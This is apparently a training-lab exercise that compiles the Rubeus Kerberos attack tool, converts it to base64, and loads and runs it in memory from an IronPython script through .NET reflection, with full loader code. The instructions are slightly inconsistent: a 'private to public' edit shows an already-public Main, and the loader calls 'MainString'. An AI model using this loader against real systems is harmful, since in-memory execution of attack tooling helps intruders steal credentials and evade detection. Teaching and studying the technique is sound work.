 # Exercise 7: Loading and Executing a .NET Assembly from Base64 in IronPython

## Pull, Modify, and Compile Rubeus
1. If not using the provided range, download [Rubeus](https://github.com/GhostPack/Rubeus.git)
2. Locate the Visual Studio shortcut on your desktop or find it from the Start menu and open it.
3. Open the Rubeus Solution: `Click on File > Open > Project/Solution`
4. Locate the Main Method in Rubeus/Program.cs, which is named `public static void Main(string[] args)`.
5. Change the private keyword to public to make the method publicly accessible:
csharp
```
public static void Main(string[] args)
```
6. Navigate to the top menu and click `Build > Build Solution`.
7. Copy Rubeus.exe to `C:\Program Files\IronPython 3.4`

## Coverting to Base64
1. From `C:\Program Files\IronPython 3.4`, open a notepad named `file_to_base64.py`.
2. Write a Python function to convert a file into its base64 representation.

```python
import base64

def file_to_base64(file_path, output_file_path):
    with open(file_path, 'rb') as file:
        base64_encoded = base64.b64encode(file.read()).decode('utf-8')
        
    with open(output_file_path, 'w') as out_file:
        out_file.write(base64_encoded)

file_to_base64('Rubeus.exe', 'output_base64.txt')
```

3. Execute the function with the path to your .NET assembly.

```powershell
.\ipy.exe .\file_to_base64.py
```

4. Copy the printed base64 string for the next task.

![Alt text](image.png)

5. The file is also located [here](./output_base64.txt).

## Creating the Function
Now we are going to create the IronPython function to load the assembly.

1. Open a new Notepad and name as `IronRubeus.py`
2. Import the required IronPython modules and .NET libraries.

```python
import clr
import System
import base64
import argparse
from System.Reflection import Assembly
```

3. Next, add the base64 encoded string.

```python
base64_str = "TVqQAAMAAAAEAAAA//8AALgAAA..."
```

4. Add a function to convert the base64 string to a byte array.

```python
def base64_to_bytes(base64_string):
    return System.Array[System.Byte](base64.b64decode(base64_string))
```

5. Add a function to convert a Python list to a .NET string array.

```python

# Convert a Python list to a .NET string array
def to_clr_array(py_list):
    arr = System.Array.CreateInstance(System.String, len(py_list))
    for i, item in enumerate(py_list):
        arr[i] = item
    return arr
```

6. Define a function to load and execute the assembly.

```python
def load_and_execute_assembly(command):
    assembly_bytes = base64_to_bytes(base64_str)
    
    # Load the assembly
    assembly = Assembly.Load(assembly_bytes)
    
    # Get the type of the Rubeus.Program class
    rubeus_program_type = assembly.GetType("Rubeus.Program")

    # You don't need to create an instance of the class for a static method
    method = rubeus_program_type.GetMethod("MainString")

    # Convert your command to a .NET string array
    command_args = to_clr_array([command])

    # Invoke the MainString method
    result = method.Invoke(None, command_args)

    return result
```

7. Use the function to load and execute the assembly.

```python
def main():
    parser = argparse.ArgumentParser(description='Execute a command on a hardcoded base64 encoded assembly')
    parser.add_argument('command', type=str, help='Command to execute (like "help" or "triage")')

    args = parser.parse_args()
    
    result = load_and_execute_assembly(args.command)
    print(result)

if __name__ == "__main__":
    main()
```
